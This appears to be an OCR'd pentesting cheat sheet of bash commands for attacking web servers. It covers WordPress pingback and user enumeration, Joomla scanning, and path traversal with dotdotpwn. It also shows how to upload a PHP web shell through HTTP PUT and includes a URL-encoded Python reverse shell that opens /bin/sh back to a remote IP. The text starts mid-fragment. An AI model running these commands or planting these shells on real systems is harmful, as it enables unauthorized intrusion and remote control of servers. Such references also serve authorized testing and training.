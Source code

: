 ```bash
</methodCall>

curl -X POST -d @pingback.xml https://ip.com/xmlrpc.php

Enum User:
for i in {1..50}; do curl -s -L -i https://ip.com/wordpress\?author=$i | grep -E -o "Location:.*" | awk -F/ '{print $NF}'; done

# Joomscan
joomscan -u  http://10.11.1.111
joomscan -u  http://10.11.1.111 --enumerate-components

# Get header
curl -i 10.11.1.111

# Get options
curl -i -X OPTIONS 10.11.1.111

	# With PUT option enabled:

	nmap -p 80 10.1.10.111 --script http-put --script-args http-put.url='/test/rootme.php',http-put.file='/root/php-reverse-shell.php'

	curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' http://10.1.10.111/test/cmd.php
	&& http://10.1.10.111/test/cmd.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%210.1.10.111%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27

# Get everything
curl -i -L 10.11.1.111
curl -i -H "User-Agent:Mozilla/4.0" http://10.11.1.111:8080

# Check for title and all links
curl 10.11.1.111 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

# Look at page with just text
curl 10.11.1.111 -s -L | html2text -width '99' | uniq

# Check if it is possible to upload
curl -v -X OPTIONS http://10.11.1.111/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://10.11.1.111/test/shell.php

# Simple curl POST request with login data
curl -X POST http://10.11.1.11/centreon/api/index.php?action=authenticate -d 'username=centreon&password=wall'

dotdotpwn.pl -m http -h 10.11.1.111 -M GET -o unix

site:domain.com intext:user


# Firebase
https://github.com/Turr0n/firebase
python3 firebase.py -p 4 --dnsdumpster -l file

```
